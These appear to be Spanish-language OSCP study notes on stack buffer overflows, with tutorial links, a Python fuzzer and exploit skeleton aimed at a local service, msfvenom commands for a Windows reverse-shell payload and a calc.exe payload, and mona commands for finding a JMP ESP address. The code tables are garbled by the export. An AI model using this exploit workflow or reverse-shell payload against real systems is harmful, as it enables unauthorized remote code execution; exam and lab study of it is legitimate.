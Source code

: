 Otra similar

[https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)



# **Buffer Overflow**

domingo, 12 de julio de 2020

19:54

[https://www.thecybermentor.com/buffer-overflows-made-easy](https://www.thecybermentor.com/buffer-overflows-made-easy)

![](RackMultipart20210412-4-pcx9xb_html_5ed864be1f166ab4.png)

[Buffer Overflow en Windows 32 bits - Desarrollo de un exploit con MiniShare 1.4.1](https://www.youtube.com/watch?v=PQJn4s4E8Os)

![](RackMultipart20210412-4-pcx9xb_html_e126800ceb361078.png)

/\*\*\* En OSCP nos darán la estructura del PoC, donde además nos indicarán la variable a explotar. \*\*\*\*\

/\*\* CesarFTP 0.99g \*\*\



**fuzzer.py**

| 123456789101112131415161718192021222324 | #!/usr/bin/pythonimport sys, socket direccion = &#39;127.0.0.1&#39;puerto = 9999buffer = [&#39;A&#39;]contador = 100 while len(buffer) \&lt;= 10:    buffer.append(&#39;A&#39;\*contador)    contador = contador + 100try:    for cadena in buffer:        print &#39;[+] Enviando %s bytes...&#39; % len(cadena)        s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)        s.connect((direccion, puerto))        s.send(cadena + &#39;\r\n&#39;)        s.recv(1024)        print &#39;[+] Listo&#39;except:    print &#39;[!] No se puede conectar al programa. Puede que lo hayas crasheado.&#39;    sys.exit(0)finally:    s.close() |
| --- | --- |

**bof.py**

| 123456789101112131415161718 | #!/usr/bin/python import sys, socket metodo\_http = &quot;GET &quot;cabecera\_http = &quot; HTTP/1.1\r\n\r\n&quot;direccion = &#39;127.0.0.1&#39;puerto = 9999buffer = #Definir buffer try:    print &#39;[+] Enviando buffer&#39;    s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)s.connect((direccion, puerto))s.send(metodo\_http+buffer+cabecera\_http)s.recv(1024)            except:    print &#39;[!] No se puede conectar al programa.&#39;    sys.exit(0)finally:    s.close() |
| --- | --- |

_Desde \&lt;_[_https://cybexsec.es/skeleton-en-python-para-buffer-overflow/_](https://cybexsec.es/skeleton-en-python-para-buffer-overflow/)_\&gt;_



msfvenom -p windows/shell\_reverse\_tcp lhost=\&lt;lhost\&gt; lport=4545 EXITFUNC=thread -f python -v shellcode -b &quot;\x00\x0d&quot;



msfvenom -p windows/exec cmd=&quot;calc.exe&quot; LHOST=\&lt;lhost\&gt; -b &quot;\x00\x0d&quot; -f python

!mona find -s &quot;\xff\xe4&quot; -m essfunc.dll

!mona jmp -r esp

El resuldao se ve en la ventana LogData





[https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf](https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf)
